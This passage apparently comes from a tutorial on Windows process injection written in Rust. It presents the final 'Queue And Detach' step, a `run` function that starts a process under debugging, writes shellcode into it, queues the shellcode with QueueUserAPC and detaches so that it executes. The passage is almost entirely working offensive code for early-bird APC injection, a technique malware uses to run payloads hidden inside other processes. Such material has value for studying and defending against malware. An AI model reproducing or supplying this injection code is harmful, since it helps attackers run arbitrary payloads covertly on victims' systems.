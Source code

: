 ### Queue And Detach
The last step is to put the process into the APC queue with `QueueUserAPC` function and detach from the debugged process with the `DebugActiveProcessStop` function. This is performed in the published function, where the previous functions are called. 

``` rust
pub fn run(target: &str, shellcode: &[u8]) {  
    let target_process = String::from(target);  
    println!("[i] Creating {} Process As A Debugged Process ... ", target_process);  
    let (dw_process_id, h_process, h_thread) = match create_debugged_process(target_process) {  
        Ok((dw_process_id, h_process, h_thread)) => (dw_process_id, h_process, h_thread),  
        Err(err) => {  
            println!("Error creating suspended process: {}", err);  
            std::process::exit(-1);  
        }  
    };  
    println!("[i] Target Process Created With Pid : {}", dw_process_id);  
    println!("\t[i] Process Handle: {:?}", h_process);  
    println!("\t[i] Thread Handle: {:?}", h_thread);  
    println!("[i] Writing Shellcode To The Target Process ... ");  
  
    let p_address = match inject_shellcode_to_remote_process(h_process, shellcode.as_ptr(), shellcode.len()) {  
        Ok(val) => val,  
        Err(err) => {  
            println!("{}. Exiting ...", err);  
            std::process::exit(-1);  
        }  
    };  
    println!("[+] Shellcode Written");  
  
    unsafe {  
        // std::mem::transmute performs a type cast  
        let p_fun_address: PAPCFUNC = std::mem::transmute(p_address);  
        QueueUserAPC(p_fun_address, h_thread, 0);  
    }  
  
    println!("[#] Press <Enter> To Run Shellcode ... ");  
    let _ = std::io::stdin().read_line(&mut String::new());  
  
    println!("[i] Detaching From The Target Process ... ");  
    unsafe {  
        if let Err(err) = DebugActiveProcessStop(dw_process_id){  
            eprintln!("[!] DebugActiveProcessStop Failed With Error : {:?}", err);  
        } else {  
            println!("[+] Shellcode Executed");  
            println!("[#] Press <Enter> To Quit ... ");  
            let _ = std::io::stdin().read_line(&mut String::new());  
        }  
    }  
    println!("[i] Closing Handles");  
    unsafe {  
        CloseHandle(h_process).expect("[!]: Failed To Close Process Handle");  
        CloseHandle(h_thread).expect("[!]: Failed To Close Thread Handle");  
    }  
}
```
